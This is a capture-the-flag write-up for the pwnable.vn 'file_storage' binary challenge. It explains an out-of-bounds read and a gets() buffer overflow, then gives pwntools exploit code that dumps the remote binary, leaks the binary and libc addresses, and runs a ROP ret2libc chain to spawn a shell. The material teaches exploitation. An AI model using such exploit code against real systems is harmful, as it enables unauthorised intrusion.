





# pwnable.vn - file_storage

Original challenge link: https://pwnable.vn/challenges#file_storage-3

You can as well download provided files in my repo: [file_storage.zip](file_storage.zip)

There will be 1 file in the zip:
- file_storage.c

Download and extract, then we can get started!

# 1. Find bug

We are provided with the source code so let's open it to see what's the main flow. Look at the function main(), we know there are 4 options. The first option `exit` just simply break the while loop and execute function feedback(). Look at that function, it's easy to see there is a **Buffer Overflow** due to gets():

```c
void feedback()
{
    char buf[256];

    puts("Please give us your feedback on the service!");
    gets(buf);
    puts("Bye!");
}
```

But we cannot do anything with this bug because we have no information (addresses and all of defences) of both the binary and the libc on server. Let's save this bug for later use.

The next option is `help`, it just prints all the avalable commands out for us. With the third option `ls`, it prints all the file names in folder `files` out and loop back again to ask for another command. These 2 options seem useless!

The last option is `cat`. The format for this command is `cat <file-name> <start-from-offset> <number-byte-print>`. When we `cat` a file, the program will check the file name to make sure we cannot open any files outside `files` folder, then get the offset number to print from `off` and the number of byte to be printed out `len`. However, those 2 variables `off` and `len` aren't checked for negative number --> **Out Of Bound**.

The variable `fixed` in c was defined as follows:

```c
static char fixed[4096] __attribute__((section(".dynamic")));
```

That means this variable has address in range of binary because the section `.dynamic` belongs to binary. If the file we `cat` has size lower than `4096`, that data will be read to this `fixed` variable. Otherwise, a chunk will be created to contain data.

We know we have **Out Of Bound** bug so if we leak value on heap memory, that would be useless, but if we can leak data in binary (which means `buf` now is `fixed`, not a heap chunk), we can leak the address of binary to see if it's `PIE enable` or not, maybe we can leak libc address too. After all, the easiest way is to leak all the binary and we can check where addresses are placed and all the mitigation techniques of program.

When we have the binary, we just need to conduct a simple ret2libc and we get shell.

Summary:
- Stage 1: Leak binary byte to rebuild binary
- Stage 2: Ret2Libc

# 2. Idea

- Stage 1: Leak binary byte to rebuild binary
- Stage 2: Ret2Libc
	- 2.1: Leak exe address
	- 2.2: Leak libc address
	- 2.3: Get shell

# 3. Exploit

### Stage 1: Leak binary byte to rebuild binary

We have bug **Out Of Bound** so we can leak the data from the begining of memory out. To be clear, let's compile and debug the file to see what address we need to print data out:



The aim is to print all data from address `0x00555555554000` to `0x0055555555a000` out because when we have those byte, we can add those bytes to one file and that file will become a binary as server (surely that some data will be lost but we have the instructions of binary so we know what binary does, we can see if it has canary or not, we can see if it's `PIE enable` or not and we can see if there is any address before `fixed` we can use to leak addresses)

We want to leak from the begining of binary so after a few attemps, I get the correct offset `-13920` to print data from the begining of binary. We can control how many bytes to be printed so let's make it print `256` bytes per command:

```python
offset = -13920
length = 0x100
```

Let's put these thing up:

```python
p = remote("file_storage.pwnable.vn", 10000)

payload = f'cat lorem {offset} {length}'.encode()
p.sendlineafter(b'> ', payload)

output = p.recv(length)
print(payload.decode(), "-->", output)

with open("bin", "ab") as f:
	f.write(output)
```

We will write to file `bin` all the bytes we receive after we enter command. The code above just print out `256` bytes. We will want to leak from the begining of binary to the current variable `fixed` with its offset is `0` so let's put them to a loop and leave it until done:

```python
offset = -13920
length = 0x100
while True:
	p = remote("file_storage.pwnable.vn", 10000)

	payload = f'cat lorem {offset} {length}'.encode()
	p.sendlineafter(b'> ', payload)

	output = p.recv(length)
	print(payload.decode(), "-->", output)
	if output==b'Invalid offset and length parameters':
		exit(0)
	with open("bin", "ab") as f:
		f.write(output)

	offset+=length
```

After it's done, we get a file called `bin` and let's check its basic information:



The command `checksec` gets error absolutely due to data loss. But we know this is a 64-bit file and it is stripped. Decompiling the file with ida, we know this binary doesn't have canary enabled just by looking at the prologue and epilogue, it doesn't saved any value at the begining of a procedure and doesn't have function `__stack_chk_failed` at the end, specially in function feedback(), which has **Buffer Overflow** bug.

We can run the file but cannot debug with gdb so to debug this file, we just need to attach gdb to the running process of this file. When attach this process, we can see the binary is PIE so leaking binary address is needed now.

### Stage 2: Ret2Libc

- 2.1: Leak exe address

To leak binary address, we will check all the data before the variable `fixed`. Setting breakpoint at fread() from file to buffer and we can get the address of `fixed`, which is in rdi register:



So let's check all the data before this address and after a while checking, we found this binary address:



We can get the offset just with a simple calculation:

```python
>>> #     fix      - 0x5555555575e8
>>> 0x555555557660 - 0x5555555575e8
120
```

So we have `off` is `-120` (note that `fixed` + `???` = `0x5555555575e8`), we just need to write script to get that address now:

```python
gdb.attach(p, gdbscript="vmmap\n")
payload = f'cat lorem {-120} {8}'.encode()
p.sendlineafter(b'> ', payload)

exe_leak = u64(p.recv(8))
exe_base = exe_leak - 0x7f0
log.info("Exe base: " + hex(exe_base))
```

- 2.2: Leak libc address

Just a simple leak with binary address in hand:

```python
main = exe_base + 0x1811
puts_got = exe_base + 0x4688
puts_plt = exe_base + 0x11e0
pop_rdi = exe_base + 0x1ab3

p.sendlineafter(b'> ', b'exit')
payload = cyclic(cyclic_find('qaac'))
payload += flat(
	pop_rdi, puts_got,
	puts_plt,
	main,
	)
p.sendlineafter(b'service!', payload)

p.recvuntil(b'Bye!\n')
puts_addr = u64(p.recv(6) + b'\x00\x00')
libc.address = puts_addr - libc.sym['puts']
log.info("Puts address: " + hex(puts_addr))
log.info("Libc base: " + hex(libc.address))
```

- 2.3: Get shell

And just simple as it is:

```python
ret = exe_base + 0x1810

p.sendlineafter(b'> ', b'exit')
payload = cyclic(cyclic_find('qaac'))
payload += flat(
	ret,        # Stack alignment will give us shell, otherwise don't
	pop_rdi, next(libc.search(b'/bin/sh')),
	libc.sym['system'],
	)
p.sendlineafter(b'service!', payload)
```

Full script: [solve.py](solve.py)

# 4. Get flag

